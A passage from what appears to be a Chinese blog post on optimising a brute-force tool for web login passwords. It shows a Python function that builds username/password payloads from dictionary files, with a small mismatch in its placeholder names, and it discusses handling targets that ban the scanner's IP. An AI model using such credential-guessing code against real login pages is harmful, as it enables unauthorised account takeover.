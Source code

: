 



## 三.后续优化

### 1. JSON格式传输数据

实际测试中有一部分目标使用的是JSON格式传输，其数据字段如下

````shell
{"code":"admin","password":"123456","referer":"index.html"}
````

尝试使用字符串的replace方法来进行payload生成、

``````python
# 因为有的数据是通过JSON传输的，因此考虑使用正则匹配
def generate_payload_v2(usernameandpassowrd="yonghuming=qwrdxername&mima=qwrdxerpasswd&session=DAWAWRFWAFAWEDF&test=testets"):

    payloadlist=[]
    for username in open("dictionary/username.txt","r",encoding='UTF-8-sig'):
        for password in open("dictionary/password.txt", "r",encoding='UTF-8-sig'):
            tmp=usernameandpassowrd
            tmp2=tmp.replace("qwrdxername",username.strip())
            tmp3=tmp2.replace("qwrdxerpassword",password.strip())
            payloadlist.append(tmp3)
    print("payload个数为:%d"%len(payloadlist))
    return payloadlist
``````

![image-20220113105029956](web%E9%A1%B5%E9%9D%A2%E5%AF%86%E7%A0%81%E7%88%86%E7%A0%B4/image-20220113105029956.png)

性能居然提升了。



### 2.被ban IP的问题

实际应用中。测试了一个目标，扫描太快被封禁了，但那几千个协程还是要执行啊， 每一个等待5秒肯定不行的

需求: 如果目标返回无法建立连接，将gevent创建的所有协程kill掉

`````python
requests.exceptions.ConnectionError: HTTPConnectionPool(host='', port=80): Max retries exceeded with url: 
`````
